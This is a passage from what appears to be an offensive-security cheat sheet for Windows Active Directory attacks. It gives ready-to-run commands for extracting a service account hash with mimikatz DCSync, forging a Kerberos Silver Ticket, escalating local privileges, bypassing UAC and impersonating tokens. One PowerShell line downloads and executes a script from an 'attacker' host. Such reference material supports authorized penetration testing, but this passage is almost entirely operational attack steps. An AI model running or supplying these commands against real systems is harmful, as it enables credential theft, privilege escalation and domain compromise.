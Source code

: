 ### Silver Ticket

**Manual:**
```bash
# Extract service account hash first
mimikatz.exe
lsadump::dcsync /domain:contoso.local /user:sqlservice
exit

# Create and use the Silver Ticket
mimikatz.exe
privilege::debug
kerberos::golden /domain:contoso.local /sid:S-1-5-21-... /target:sqlserver.contoso.local /service:MSSQLSvc /rc4:hash /user:Administrator /ptt
exit
```

**Automated:**
```bash
# Create Silver Ticket
./mimikatz-wrapper.py local silver -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -t sqlserver.contoso.local -v MSSQLSvc
```

---

## Local Privilege Escalation

### Windows Privilege Escalation

**Manual:**
```bash
# Run PowerUp
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerUp.ps1'); Invoke-AllChecks"

# Check with WinPEAS
winPEASx64.exe

# UAC Bypass with UACMe
akagi64.exe 23
```

**Automated:**
```bash
# PowerShell enumeration for privilege escalation opportunities
./powershell-enumeration.py local
```

### Token Manipulation

**Manual:**
```bash
# Using Incognito in Meterpreter
load incognito
list_tokens -u
impersonate_token DOMAIN\\Administrator

# Using Mimikatz
token::elevate
token::list
token::impersonate /user:Administrator
```
